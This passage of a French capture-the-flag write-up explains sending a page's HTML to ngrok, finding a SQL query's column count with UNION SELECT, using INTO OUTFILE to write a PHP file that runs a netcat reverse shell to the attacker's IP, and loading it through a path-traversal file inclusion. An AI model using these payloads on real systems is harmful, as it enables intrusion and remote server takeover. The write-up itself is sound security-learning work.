 La première ligne permet d'inclure JQuery dans la page afin de simplifier l'envoi des requêtes GET et POST. Ensuite, la requête GET déclarée avec le $.get qui va retourner dans son callback le code html de la page stats.php. 

Dans ce même callback, on déclare la requête post ($.post) qui va nous renvoyer ce code html. Avant le renvoi vers ngrok, le code html est décodé (decodeURIComponent) pour ne pas à avoir à le décoder à chaque lecture de la requête.

Maintenant que nous avons mis en place notre structure pour exploiter la faille SQLi, il faut chercher à comment exploiter cette faille. Le site n'ayant pas d'interface de login connu, inutile de chercher le mot de passe de l'administrateur dans la base de données. On va donc upload un reverse shell sur le serveur, ce qui est plus utile et plus fun que de récupérer un mot de passe.

## Connaître le nombre de colonne de la requête
Avant de pouvoir upload quoi que ce soit sur le serveur, on doit trouver le nombre de colonnes de la requête qui récupère les statistiques. Pour cela a modifié l’URL de la requête GET.

Essai avec une colonne.
{% highlight js %}
		"/the-admin-secure-interface/stats.php?stats_id=' union select '666"
{% endhighlight %}

Il y a une erreur php, ce qui signifie que ce n'est pas une colonne. Tentative pour deux colonnes :

{% highlight js %}
		"/the-admin-secure-interface/stats.php?stats_id=' union select '666', '667"
{% endhighlight %}

Cette fois le retour de la requête ne revoie aucune erreur, cela signifie qu'il y a deux colonnes à la requête.

## Upload du reverse shell
Maintenant que l'on connaît le nombre de colonnes, nous allons pour pouvoir upload le reverse shell à l'aide de SQL. En effet, le langage SQL permet de pouvoir écrire des fichiers à l'aide de INTO OUTERFILE, ce qui va permettre d'upload un fichier php qui va ensuite permettre d'obtenir un reverse shell.

{% highlight js %}
		"/the-admin-secure-interface/stats.php?stats_id=1' union select '', '<?php system(\"nc -e /bin/sh <ip> <port> \")?>' INTO OUTFILE '/tmp/rs.php"
{% endhighlight %}

Comme nous pouvons le voir, au chargement du script php, le script va exécuter la commande netcat vers notre ip (en écoute sur netcat), ce qui va une fois la connexion établie nous donner un bash.

# Etape 7 : Récupération du flag
Pour établir la connexion reverse shell, il faut exécuter le code php. Pour cela, on utilise la faille LFI pour charger le script.

{% highlight js %}
		"?page=../../../tmp/rs"
{% endhighlight %}
